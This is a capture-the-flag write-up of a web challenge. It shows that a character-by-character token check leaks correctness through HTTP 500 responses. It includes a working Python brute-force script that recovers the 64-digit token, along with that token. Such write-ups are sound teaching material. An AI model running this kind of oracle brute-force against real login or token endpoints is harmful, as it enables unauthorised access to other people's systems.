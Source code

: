 


For every character in the token, if it's not equal to the corresponding char in AUTHENTICATION_TOKEN, auth() returns false, which causes the `error.html` page to be returned. 

Where is the user token taken from? 
![[Captura de pantalla 2024-12-16 a las 15.38.49.png]]
Based on this part of the code, we see that we need to go to the route `/search` and give the token as part of the query parameter `token`. We can enter something like: `http://chall.w1playground.com:22222/search?token=1` as the URL. 

Inspecting the for-loop inside auth(), we can brute-force the token incrementally, because we get different responses from the server depending on whether it's correct or not. 
Send in one character only: 
- If correct > moves onto next iteration: token`[1]` causes an index error which results in an internal server error (response status code = 500)
![[Captura de pantalla 2024-12-16 a las 15.33.07.png]]
- If incorrect > "error.html"
![[Captura de pantalla 2024-12-16 a las 15.34.55.png]]

We have successfully tested that the first character of the token is "5". How long is the token? From `AUTHENTICATION_TOKEN = "".join([str(randint(0, 9)) for _ in range(64)])` in `app.py`, we see that it's 64 characters long. It's better to automate this!

We'll write a Python script using `requests` to finish brute-forcing the whole token:
```python
# leak_token.py
import requests

# prep GET request
url = "http://chall.w1playground.com:22222/search"
headers = {
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
"Accept-Encoding": "gzip, deflate",
"Accept-Language": "en-US,en;q=0.5",
"Connection": "keep-alive",
"Host": "chall.w1playground.com:22222",
"Priority": "u=0, i",
"Upgrade-Insecure-Requests": "1",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0",
}

token = ""
params = params = {"token": token + "0"}
response = requests.get(url, headers=headers, params=params)

while len(token) < 64: # token is 64 chars long
	for i in range(10):
		# print(f"try digit {i}")
		params = {"token": token + f"{i}"}
		response = requests.get(url, headers=headers, params=params)
		if response.status_code == 500 or "Search Results" in response.text: # correct char or entire token is correct
			token += str(i)
			print(f"Token is now: {token}")
			break

print(f"Final token: {token}")
print(f"Length of token: {len(token)}")
# Final token: 5452005252181943284069771531727600864785926578645050517149423905
```
